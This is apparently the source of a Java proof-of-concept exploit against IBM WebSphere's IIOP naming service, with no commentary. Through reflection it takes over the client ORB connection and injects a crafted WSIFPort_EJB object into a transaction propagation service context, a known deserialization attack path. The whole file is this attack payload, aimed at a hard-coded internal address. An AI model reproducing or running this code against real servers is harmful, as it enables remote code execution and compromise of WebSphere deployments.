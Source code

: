 ```java
import javax.naming.InitialContext;
import java.lang.reflect.Field;
import java.lang.reflect.Method;
import java.util.ArrayList;
import java.util.Properties;

public class Main {
    public static void main(String[] args) throws Exception {
        Properties env = new Properties();
        env.put(Context.PROVIDER_URL, "iiop://192.168.18.4:2809");
        env.put(Context.INITIAL_CONTEXT_FACTORY, "com.ibm.websphere.naming.WsnInitialContextFactory");
        InitialContext initialContext = new InitialContext(env);
        initialContext.list("");

        Field f_defaultInitCtx = initialContext.getClass().getDeclaredField("defaultInitCtx");
        f_defaultInitCtx.setAccessible(true);
        WsnInitCtx defaultInitCtx = (WsnInitCtx) f_defaultInitCtx.get(initialContext);
        Field f_context = defaultInitCtx.getClass().getDeclaredField("_context");
        f_context.setAccessible(true);
        CNContextImpl _context = (CNContextImpl) f_context.get(defaultInitCtx);
        Field f_corbaNC = _context.getClass().getDeclaredField("_corbaNC");
        f_corbaNC.setAccessible(true);
        _NamingContextStub _corbaNC = (_NamingContextStub) f_corbaNC.get(_context);
        Field f__delegate = ObjectImpl.class.getDeclaredField("__delegate");
        f__delegate.setAccessible(true);
        ClientDelegate clientDelegate = (ClientDelegate)f__delegate.get(_corbaNC);
        Field f_ior = clientDelegate.getClass().getSuperclass().getDeclaredField("ior");
        f_ior.setAccessible(true);
        IOR ior = (IOR) f_ior.get(clientDelegate);
        Field f_orb = clientDelegate.getClass().getSuperclass().getDeclaredField("orb");
        f_orb.setAccessible(true);
        ORB orb = (ORB)f_orb.get(clientDelegate);
        GIOPImpl giopimpl = (GIOPImpl) orb.getServerGIOP();
        Method getConnection = giopimpl.getClass().getDeclaredMethod("getConnection", com.ibm.CORBA.iiop.IOR.class, Profile.class, com.ibm.rmi.corba.ClientDelegate.class, String.class);
        getConnection.setAccessible(true);
        Connection connection = (Connection) getConnection.invoke(giopimpl,ior,ior.getProfile(),clientDelegate,"nbxiglk");
        Method setConnectionContexts = connection.getClass().getDeclaredMethod("setConnectionContexts", ArrayList.class);
        setConnectionContexts.setAccessible(true);
        WSIFPort_EJB wsifPort_ejb = new WSIFPort_EJB(null,null,null);
        Field fieldEjbObject = wsifPort_ejb.getClass().getDeclaredField("fieldEjbObject");
        fieldEjbObject.setAccessible(true);
        fieldEjbObject.set(wsifPort_ejb,new EJSWrapperS());
        CDROutputStream outputStream = ORB.createCDROutputStream(orb);
        outputStream.putEndian();
        Any any = orb.create_any();
        any.insert_Value(wsifPort_ejb);
        PropagationContext propagationContext = new PropagationContext(0,
                new TransIdentity(null,null, new otid_t(0,0,new byte[0])),
                new TransIdentity[0],
                any);
        PropagationContextHelper.write(outputStream, propagationContext);
        byte[] result = outputStream.toByteArray();
        ServiceContext serviceContext = new ServiceContext(0,result);
        ArrayList var4 = new ArrayList();
        var4.add(serviceContext);
        setConnectionContexts.invoke(connection,var4);
        initialContext.list("");
    }
}
```